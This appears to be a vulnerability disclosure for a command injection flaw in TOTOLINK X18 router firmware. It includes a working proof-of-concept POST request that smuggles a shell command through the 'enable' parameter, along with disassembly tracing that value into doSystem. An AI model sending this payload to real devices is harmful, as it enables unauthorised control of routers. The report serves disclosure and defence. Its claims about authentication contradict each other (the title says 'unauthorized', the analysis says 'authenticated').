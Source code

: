 # TOTOlink_X18 Unauthorized Arbitrary Command Execution Vulnerability

## Description of the vulnerability

TOTOLINK X18
In the firmware version V9.1.0cu.2024_B20220329 of the router device, there is an unauthorized arbitrary command execution in the `enable` parameter' of the `sub_41105C `function of the cstecgi .cgi

**Vulnerability Recurrence**

**Local Build Environment**

**device：**TOTOlink X18

**Firmware version**：V9.1.0cu.2024_B20220329

**Manufacturer's website information：**https://www.totolink.net/

**Firmware download address:**

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/226/ids/36.html

------------------------------------------------------------------------------------------------

![Image](https://github.com/user-attachments/assets/0617e32e-bfb2-49b7-a9a3-75b8b9452c58)

## **POC**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.216.129
Content-Length: 99
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.216.129
Referer: http://192.168.216.129/advance/schedule.html?time=1726322824804
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"enable":"`ls>/web/1.txt`",
"topicurl":"setRemoteCfg",
"token":"fcd7cd19b701514024c891415e00aced"
}
```

![Image](https://github.com/user-attachments/assets/a9fcc4a0-d596-4a76-abaf-732e8ef47b3b)

**Respone**

![Image](https://github.com/user-attachments/assets/fc90a826-9b2d-46b6-80bd-eb90caeef43a)

![Image](https://github.com/user-attachments/assets/c085fa79-75e2-42c8-8d30-6a0370ba5bc3)



## **Vulnerability Analysis**

1. The analysis is as follows: IDA

First, obtain the value of `enable`, store it in `$s0`, and then pass the content of `$s0` as an argument to the dosystem function, causing an arbitrary command execution vulnerability. Therefore, it can be proven to our arbitrary command execution vulnerability, triggered here, and authenticated to exist.

```
sub_41105C:
save    0x28, $ra,$s0-$s1
lw      $a2, off_4110B8  # "0"
lw      $a1, off_4110BC  # "enable"
jal     websGetVar
move    $s1, $a0
move    $s0, $v0
lw      $a2, dword_4110C0
lw      $a1, off_4110C4  # "port"
jal     websGetVar
move    $a0, $s1
move    $a3, $s0
lw      $a2, off_4110BC  # "enable"
lw      $a1, off_4110C8  # "remote"
li      $a0, 0xD
jal     doSystem
move    $s1, $v0
jal     atoi
move    $a0, $s0
cmpi    $v0, 1
bteqz   loc_4110AA
```

